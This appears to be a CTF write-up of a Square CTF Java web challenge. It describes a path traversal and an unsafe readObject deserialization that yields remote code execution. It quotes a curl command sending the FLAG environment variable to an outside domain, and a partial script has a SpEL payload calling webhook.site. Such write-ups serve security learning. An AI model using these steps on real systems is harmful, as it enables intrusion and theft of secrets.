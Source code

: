 Overview of important files extracted:

- Command.java - contains a serializable(!) object that grants free RCE upon calling `readObject()` on it. Notably, It splits the `command` string into three, and calls `Runtime.getRuntime().exec(commandArray)` on it, meaning that you'll want to _not_ enclose any argument within a string. We used `bash -c curl http://ourdomain?c=${FLAG}`.
- CommandController.java - contains logic for exposing a  `/command` route which gives RCE, but the `@Controller` metadata annotation got removed, so it's useless to us.
- DiagnosticsController.java - exposes a `/diagnostics` GET route that reads a  `./Errors/.<errorId>` file, `base64` decodes it, and calls `readObject()` on it.
- ReportsController.java - writes a file to `Reports/<subject>/<name>`, and hints at the existence of the flag in the `FLAG` env var.

Quick note: You can essentially deserialize any Java object that implements the `Serializable` interface and which exists on the server side, if you're allowed to pass data into an `ObjectInputStream` and on which `readObject` gets called. They're required to implement `readObject`, and if the implementation of `readObject` is unsafe, that can lead to Remote Code Execution (RCE). In this chall `readObject` implements a direct call to `Runtime.getRuntime().exec` for simplicity, but usually it's done through a series of gadgets.

So, we create our own Java project, pop `Command.java` in there, instantiate it with our payload and write it out as a `base64` file, that we write to `Reports/<subject>/<name>`, and finally we go to `/diagnostics?errorId=./Reports/<subject>/<name>` to execute our payload and get their flag.

`flag{8db7145f70954219ba589a54586710da}`

## Files

`script.py`:

```python
import requests
import json
import time
import aiohttp
import asyncio
import os
import sys
import re
import websockets
from bs4 import BeautifulSoup
from urllib.parse import quote_plus

async def main():
    url = "ws://chals.2022.squarectf.com:4104"
    payload = "T(java.lang.Runtime).getRuntime().exec('curl http://webhook.site/my_unique_uuid')"
    selector_header = f"selector:{payload}" # wild guess lmao, didn't get me anywhere
    path = "../src/main/java/com/example/developershubris/WebSocketConfig.java"
    path = "../src/main/java/com/example/developershubris/DevelopersHubrisApplication.java"
    path = "../src/main/java/com/example/developershubris/HelpController.java"
    path = "../src/main/java/com/example/developershubris/Assistance.java"
    path = "../src/main/java/com/example/developershubris/HelpRequest.java"
    path = "../src/main/java/com/example/developershubris/PathSecurityUtil.java"
    path = "../src/main/resources/application.properties"
    path = "../Help"
    path = "../Reports"
    path = "../Errors"
    path = "../mvnw.cmd"
    path = "../src/test/java/com/example/developershubris/DevelopersHubrisApplicationTests.java"
    path = "../target/DevelopersHubris-0.0.1-SNAPSHOT.jar"
    path = "../src/main/java/com/example/developershubris/Command.java"
    path = "../src/main/java/com/example/developershubris/CommandController.java"
    path = "../src/main/java/com/example/developershubris/DiagnosticsController.java"
    path = "../src/main/java/com/example/developershubris/ReportsController.java"
    path = "../src/main/java/com/example/developershubris/ExceptionLoggerControllerAdvice.java"
    # set max_size to allow for large response
```